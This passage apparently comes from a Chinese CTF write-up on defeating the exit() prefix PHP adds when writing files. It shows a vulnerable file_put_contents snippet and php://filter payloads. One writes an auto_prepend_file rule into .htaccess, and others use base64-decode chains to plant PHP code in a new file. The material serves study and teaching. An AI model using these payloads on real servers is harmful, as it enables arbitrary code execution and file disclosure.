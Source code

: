 **payload:**

```
?file=php://filter/write=string.strip_tags/resource=.htaccess
DATA:
content=?&gt;php_value%20auto_prepend_file%20D:\flag.php
```

[![](https://p3.ssl.qhimg.com/t015e6100cb7a6b25b2.png)](https://p3.ssl.qhimg.com/t015e6100cb7a6b25b2.png)

这时无论访问那个文件，都会解析出flag.php

### <a class="reference-link" name="%E7%AC%AC%E4%BA%8C%E7%A7%8D%E6%83%85%E5%86%B5"></a>第二种情况

```
&lt;?php
if(isset($_GET['content']))`{`
    $content = $_GET['content'];
    file_put_contents($content,"&lt;?php exit();".$content);
`}`else`{`
    highlight_file(__FILE__);
`}`
```

这种情况和上面第一种便有点不同了，因为是一个变量，但还是可以利用php伪协议进行嵌套过滤器来消除死亡代码的，看了s1mple师傅的方法，还是可以利用.htaccess进行预包含，然后读取flag。

**<a class="reference-link" name="0x01:.htaccess%E9%A2%84%E5%8C%85%E5%90%AB%E7%BB%95%E8%BF%87"></a>0x01:.htaccess预包含绕过**

**payload:**

```
?content=php://filter/string.strip_tags/?&gt;php_value auto_prepend_file D:\flag.php%0a%23/resource=.htaccess
```

[![](https://p0.ssl.qhimg.com/t01de1225902e584951.png)](https://p0.ssl.qhimg.com/t01de1225902e584951.png)

可以直接自定义预包含文件，这里直接包含了.htaccess导致了所有文件都包含flag.php文件

**<a class="reference-link" name="0x02:base64%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87"></a>0x02:base64编码绕过**

既然变成了一个变量，那么首先想到的payload便是：

```
php://filter/convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=Sn0w.php
```

但是有一个问题，可以创建文件，但是无法写入内容，查看了cyc1e师傅的博客，发现问题是出在=号上，因为默认情况下base64编码是以`=`作为结尾的，在正常解码的时候到了 `=`就解码结束了，在最后获取文件名的时候因为resource=中含有等号，所以以为解码是结束了，导致过滤器解码失败，从而报错，内容由于解码过程出错了，所以就都丢弃了。

所以现在问题就转变为了只要能去掉这个等号，就可以将内容写进去，可以看下这种方法：

```
php://filter/&lt;?|string.strip_tags|convert.base64-decode/resource=?&gt;PD9waHAgcGhwaW5mbygpOz8%2B.php
```
